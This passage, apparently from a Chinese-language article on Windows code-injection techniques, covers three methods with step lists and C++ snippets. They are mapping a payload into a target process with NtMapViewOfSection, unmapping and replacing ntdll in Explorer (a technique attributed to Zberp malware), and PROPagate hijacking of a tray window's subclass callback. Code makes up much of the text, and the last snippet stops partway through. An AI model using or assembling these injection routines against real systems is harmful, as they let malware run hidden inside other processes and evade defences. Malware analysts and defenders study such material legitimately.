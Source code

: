 > b. 映射到当前内存中  
> c. 将数据拷贝到mapped buffer当中  
> d. 使用NtMapViewOfSection将filemapping映射到目标进程当中  
```cpp  
HANDLE fm = CreateFileMappingA(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(payload), NULL);
LPVOID map_addr =MapViewOfFile(fm, FILE_MAP_ALL_ACCESS, 0, 0, 0);
HANDLE p = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION, FALSE, process_id);
memcpy(map_addr, payload, sizeof(payload)); 
LPVOID requested_target_payload=0;
SIZE_T view_size=0;
ntdll!NtMapViewOfSection(fm, p, &requested_target_payload, 0, sizeof(payload), NULL, &view_size, ViewUnmap, 0, PAGE_EXECUTE_READWRITE );
target_payload=requested_target_payload;
```  
### Unmap+Overwrite execution method  
这是Zberp当中使用的执行方式，其实一种劫持ntdll的方法.利用NtUnmapViewOfSection将目标进程当中ntdll的内存unmap掉,然后再在进程当中相同的位置申请同样大小的内存空间,将自己修改过的ntdll内容利用写方法写入到相应的位置.也可以利用上面map的方式直接将内存map进去.示例代码是针对Explorer进行注入.  
> a. 将目标进程当中的ntdll Unmap掉  
> b. 使用写方法将你patch过的dll重新填回相应的内存位置  
```cpp  
MODULEINFO ntdll_info;
HANDLE ntdll= GetModuleHandleA("ntdll");
GetModuleInformation(GetCurrentProcess(), ntdll , &ntdll_info, sizeof(ntdll_info));
HANDLE fm = CreateFileMappingA(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, ntdll_info.SizeOfImage, NULL);
LPVOID map_addr =MapViewOfFile(fm, FILE_MAP_ALL_ACCESS, 0, 0, 0);
HANDLE p = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_READ | PROCESS_VM_OPERATION | PROCESS_SUSPEND_RESUME, FALSE, process_id);
ntdll!NtSuspendProcess(p);
ReadProcessMemory(p, ntdll, map_addr, ntdll_info.SizeOfImage, NULL);
// Patch NtClose in map_addr
ntdll!NtUnmapViewOfSection(p, ntdll);
SIZE_T view_size=0;
ntdll!NtMapViewOfSection(fm, p, &ntdll, 0, ntdll_info.SizeOfImage, NULL, &view_size, ViewUnmap, 0, PAGE_EXECUTE_READWRITE );
FlushInstructionCache(p, ntdll, ntdll_info.SizeOfImage);
ntdll!NtResumeProcess(p);
```  
### PROPagate execution method  
由Adam发明于2017年,在windwos界面程序中,窗口子类化的过程要先保存旧的回调,然后设置新的回调,在新的回调当中完成对消息的处理后再调用旧的回调.
当窗口子类化时,子窗口会多一个新的属性,根据comctl32.dll的版本来命名名称(版本6.x对应的名称是UxSubclassInfo；版本5.x对应的名称是CC32SubclassInfo)
保存着旧的回调函数指针。SetWindowSubclass中使用SetProp来设置这两个值.所以,可以使用这个函数来篡改回调函数指针.  
> a. 使用任意一种写方法将payload写入到目标进程当中  
> b. 找到目标进程的子窗口,并获取UxSubclassInfo属性  
> c. 从目标进程当中读出旧的结构  
> d. 复制并修改回调函数为payload地址  
> e. 将修改过的结构写入目标进程当中  
> f. 设置UxSubclassInfo为新写入的结构  
> g. 给目标窗口发送消息去触发执行  
```cpp  
HWND h = FindWindow("Shell_TrayWnd", NULL);
DWORD process_id;GetWindowThreadProcessId(h, &process_id);
HWND hst = GetDlgItem(h, 303); // System Tray
HWND hc = GetDlgItem(hst, 1504);
HANDLE p = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id);
char new_subclass[0x50];
HANDLE target_new_subclass = (HANDLE)VirtualAllocEx(p, NULL, sizeof(new_subclass), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
HANDLE old_subclass = GetProp(hc, "UxSubclassInfo");
ReadProcessMemory(p, (LPCVOID)old_subclass, (LPVOID)new_subclass, sizeof(new_subclass), NULL);
DWORD64 target_execution_ptr_value=target_execution;
memcpy(new_subclass + 0x18, &target_execution_ptr_value, sizeof(target_execution_ptr_value));
```